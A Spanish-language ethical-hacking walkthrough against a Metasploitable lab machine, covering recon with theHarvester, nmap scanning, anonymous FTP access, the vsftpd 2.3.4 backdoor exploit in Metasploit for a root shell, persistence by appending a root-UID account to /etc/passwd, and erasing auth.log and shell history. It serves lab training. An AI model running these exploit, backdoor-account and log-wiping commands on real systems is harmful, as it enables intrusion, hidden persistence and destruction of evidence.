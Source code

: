 ```bash
theharvester -d metasploitable.local -l 100 -b all
```

> 🔍 Obtiene correos, hosts, y nombres públicos.

---

#### 👣 Paso 2: Escaneo

```bash
nmap -sS -sV -O 192.168.56.101
```

> 🔍 Detecta puertos abiertos y servicios. Por ejemplo, FTP, SSH, MySQL, Apache.

---

#### 👣 Paso 3: Acceso

Detectas que el servicio FTP (puerto 21) **permite acceso anónimo**:

```bash
ftp 192.168.56.101
# Usuario: anonymous
```

¡Ya estás dentro del sistema!

---

O encuentras una vulnerabilidad en un servicio con Metasploit:

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.56.101
run
```

✅ Obtienes una shell como root.

---

#### 👣 Paso 4: Mantener el acceso

```bash
netcat -lvp 4444 > shell.sh
```

O subes un script para crear un usuario:

```bash
echo "user:x:0:0::/root:/bin/bash" >> /etc/passwd
```

---

#### 👣 Paso 5: Cubrir rastros

```bash
rm -f /var/log/auth.log
history -c
```

---